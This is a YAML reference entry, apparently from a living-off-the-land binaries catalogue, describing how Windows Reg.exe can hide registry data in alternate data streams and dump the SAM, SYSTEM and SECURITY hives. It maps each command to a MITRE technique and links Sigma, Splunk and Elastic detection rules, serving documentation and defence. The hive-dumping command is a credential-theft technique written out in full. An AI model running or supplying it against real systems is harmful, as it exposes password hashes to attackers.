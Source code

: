 ```yaml
---
Name: Reg.exe
Description: Used to manipulate the registry
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: reg export HKLM\SOFTWARE\Microsoft\Evilreg {PATH_ABSOLUTE}:evilreg.reg
    Description: Export the target Registry key and save it to the specified .REG file within an Alternate data stream.
    Usecase: Hide/plant registry information in Alternate data stream for later use
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: reg save HKLM\SECURITY {PATH_ABSOLUTE:.1.bak} && reg save HKLM\SYSTEM {PATH_ABSOLUTE:.2.bak} && reg save HKLM\SAM {PATH_ABSOLUTE:.3.bak}
    Description: Dump registry hives (SAM, SYSTEM, SECURITY) to retrieve password hashes and key material
    Usecase: Dump credentials from the Security Account Manager (SAM)
    Category: Credentials
    Privileges: Administrator
    MitreID: T1003.002
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\reg.exe
  - Path: C:\Windows\SysWOW64\reg.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_regedit_import_keys_ads.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_regedit_import_keys.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_reg_dumping_sensitive_hives.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/attempted_credential_dump_from_registry_via_reg_exe.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/f6421d8c534f295518a2c945f530e8afc4c8ad1b/rules/windows/credential_access_dump_registry_hives.toml
  - IOC: reg.exe writing to an ADS
Resources:
  - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
  - Link: https://pure.security/dumping-windows-credentials/
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

